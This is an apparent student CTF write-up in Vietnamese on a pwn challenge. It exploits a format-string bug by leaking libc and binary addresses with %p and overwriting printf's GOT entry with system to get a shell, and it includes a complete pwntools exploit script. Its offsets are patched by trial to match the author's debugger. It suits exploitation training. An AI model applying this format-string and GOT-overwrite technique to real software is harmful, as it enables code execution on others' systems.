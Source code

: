 # IDA
Chương trình thực hiện nhập payload và ta để ý ở đây có lỗi FMT, nên ta có thể thay đổi got@printf thành system.
![image](https://user-images.githubusercontent.com/111769169/221399839-70442642-081e-4e39-a173-0d2b6c256df2.png)  
Đầu tiên ta cần leak được libc để tìm địa chỉ base  
Ở đây ta chú ý sẽ lấy libc ```0x007fffffffde78│+0x00f8: 0x007ffff7dbdd90  →  <__libc_start_call_main+128> mov edi, eax``` nên ta sẽ sử dụng %p để leak địa chỉ  
```python
#################
### Leak libc ###
#################
payload1 = b"%37$p"
r.sendlineafter(b">> ", b'1')
r.sendafter(b"payload: ", payload1)
r.recvuntil(b"submitted\n")
leak_libc = int(r.recvuntil(b"1. Submit", drop=True), 16)
libc.address = leak_libc - 0x1d90 - 0x28000
log.info("leak libc " + hex(leak_libc))
log.info("base " + hex(libc.address))
```
> Ở đây em kiểm tra lại địa chỉ system của chương trình ``` 0x7fcf79b90d60 ``` và địa chỉ sau khi tính toán ``` system 0x7fcf79bb8d60 ```  
> em thấy không giống nhau nên em đoán địa chỉ base của em tính sai nên em sẽ tính offset của system chương trình và địa chỉ system em tính là ``` 0x28000 ```
___
Tiếp theo ta sẽ leak địa chỉ exe để tìm base exe
Thì ta chọn địa chỉ nằm ``` 0x007fffffffde58│+0x00d8: 0x0000000040142b ``` vẫn dùng %p để leak và tính ra địa chỉ base exe
```python
### Leak exe ###
r.sendlineafter(b">> ", b"1")
payload2 = b"%33$p"
r.sendafter(b"payload: ", payload2)
r.recvuntil(b"submitted\n")
leak_exe = int(r.recvuntil(b"1. Submit", drop=True), 16)
exe.address = leak_exe - 0x42b - 0x2000
log.info("leak exe " + hex(leak_exe))
log.info("base exe " + hex(exe.address))
```
> tuy nhiên khi em chạy chương trình thì thấy địa chỉ printf@got của chương trình ```0x404040 printf@GLIBC_2.2.5``` và địa chỉ em tính ```0x00000000406040``` vẫn khác nhau do đó em lại tính offset ```-0x2000```
___
Tiếp đến ta sẽ OW GOT của printf
ở đây ta thấy sự khác biết của địa chỉ giữa GOT của printf ```printf@GLIBC_2.2.5  →  0x7ffff7df4770``` và địa chỉ hàm system ```0x7ffff7de4d60 <libc_system>```
khác biệt 3byte nên ta sẽ ghi đè 3 byte của printf

```python
part1 = (libc.sym['system']) & 0xff
part2 = (libc.sym['system']) >> 8 & 0xffff
log.info("system " + hex(libc.sym['system']))

payload3 = f'%{part1}c%10$hhn'.encode()
payload3 += f'%{part2 - part1}c%11$hn'.encode()
payload3 = payload3.ljust(0x20, b'A')
payload3 += p64(exe.got['printf'])
payload3 += p64(exe.got['printf']+1)

r.sendlineafter(b">> ", b"1")
r.sendafter(b"payload: ", payload3)

r.interactive()
```
> %hhn là ghi 1byte, %hn là 2byte, ta nên ghi đè 1 byte trước rồi mới ghi đè 2byte tiếp theo
___
Đến đây ta sẽ nhập ta chuỗi /bin/sh, có thể dùng script hoặc nhập tay =))
<details> <summary> script </summary>

  ```python
from pwn import *

r = process("./chall_patched")
exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
gdb.attach(r, gdbscript='''
b* payload+105
c           
           ''')
input()

### Leak libc ###
payload1 = b"%37$p"
r.sendlineafter(b">> ", b'1')
r.sendafter(b"payload: ", payload1)
r.recvuntil(b"submitted\n")
leak_libc = int(r.recvuntil(b"1. Submit", drop=True), 16)
libc.address = leak_libc - 0x1d90 - 0x28000
log.info("leak libc " + hex(leak_libc))
log.info("base " + hex(libc.address))

### Leak exe ###
r.sendlineafter(b">> ", b"1")
payload2 = b"%33$p"
r.sendafter(b"payload: ", payload2)
r.recvuntil(b"submitted\n")
leak_exe = int(r.recvuntil(b"1. Submit", drop=True), 16)
exe.address = leak_exe - 0x42b - 0x2000
log.info("leak exe " + hex(leak_exe))

### OW GOT ###
part1 = (libc.sym['system']) & 0xff
part2 = (libc.sym['system']) >> 8 & 0xffff
log.info("system " + hex(libc.sym['system']))

payload3 = f'%{part1}c%10$hhn'.encode()
payload3 += f'%{part2 - part1}c%11$hn'.encode()
payload3 = payload3.ljust(0x20, b'A')
payload3 += p64(exe.got['printf'])
payload3 += p64(exe.got['printf']+1)

r.sendlineafter(b">> ", b"1")
r.sendafter(b"payload: ", payload3)

r.interactive()
```
  
  ![image](https://user-images.githubusercontent.com/111769169/221409669-3bc13aef-a975-4bb3-80a2-0a1a981c99da.png)

  
</details>

Lưu ý: Thông qua bài này em thấy mình còn sai ở chỗ tính địa chỉ base, em coi lại các video thì rút ra kinh nghiệm tính địa chỉ base  
![image](https://user-images.githubusercontent.com/111769169/221494512-1ca39d0d-998f-4515-99ba-8fcc584a4b7a.png)  
